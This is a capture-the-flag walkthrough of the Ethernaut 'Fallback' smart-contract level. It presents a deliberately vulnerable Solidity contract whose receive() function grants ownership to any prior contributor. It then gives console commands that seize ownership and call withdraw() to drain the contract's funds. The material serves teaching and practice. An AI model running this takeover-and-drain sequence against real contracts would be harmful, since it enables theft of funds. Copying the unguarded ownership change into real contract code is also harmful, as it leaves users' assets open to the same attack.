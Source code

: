 # Hello Ethernaut

## Challenge Description

Look carefully at the contract's code below.

You will beat this level if:

1.  you claim ownership of the contract
2.  you reduce its balance to 0

Things that might help

-   How to send ether when interacting with an ABI
-   How to send ether outside of the ABI
-   Converting to and from wei/ether units (see `help()` command)
-   Fallback methods

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## Challenge Solution Walkthrough

To become the owner in this challenge, we need to fulfill certain conditions. Let's analyze the functions that can change the owner:

1. **Constructor Function**:

```solidity
constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
}
```

The `constructor()` function is executed only once when the contract is deployed. It sets the initial `owner` as the `msg.sender`. Unfortunately, we cannot execute this function again, so it cannot be used to become the `owner`.

2. **Contribute Function**:

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if (contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
    }
}
```

The `contribute()` function allows users to contribute to the contract. To become the `owner`, we must meet two conditions:

-   Our contribution (`msg.value`) must be less than `0.001 ether`.
-   Our contribution (`contributions[msg.sender]`) must be greater than the current `owner`'s contribution (`contributions[owner]`).

Given that the `owner` initially contributed `1000 ether`, it would require an extremely large number of contributions and multiple transactions to become the `owner`. This approach is not feasible.

2. **Receive Function**:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

The `receive()` function is triggered when a transaction is sent to the contract without any data but with a value. To become the `owner`, we need to satisfy two conditions:

-   The transaction value (`msg.value`) must be greater than zero.
-   We must have already made a contribution (`contributions[msg.sender]`).

To become the owner, follow these steps:

1.  Open the console and contribute to the contract:

```javascript
> await contract.contribute({ value: "1" })
```

2.  Verify your contribution by running the following command:

```javascript
> (await contract.contributions(player)).toString()
< '1'
```

3.  Send a transaction to the contract without any data, but with a value, to execute the `receive()` function and become the `owner`:

```javascript
> await web3.eth.sendTransaction({from: player, to: contract.address, value: "1"})
```

4.  Verify that you are the new `owner`:

```javascript
> (await contract.owner()) == player
< true
```

If the return value is `false`, it means you are not the `owner`, and you need to retry the process. After becoming the `owner`, you can proceed with the final step.

5.  Drain all the funds from the contract:

```javascript
> await contract.withdraw()
```

6.  Verify that all funds have been withdrawn from the contract:

```javascript
> (await getBalance(contract.address)).toString() == "0"
< "true"
```

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

You know the basics of how ether goes in and out of contracts, including the usage of the fallback method.

You've also learnt about OpenZeppelin's Ownable contract, and how it can be used to restrict the usage of some methods to a privileged address.

Move on to the next level when you're ready!
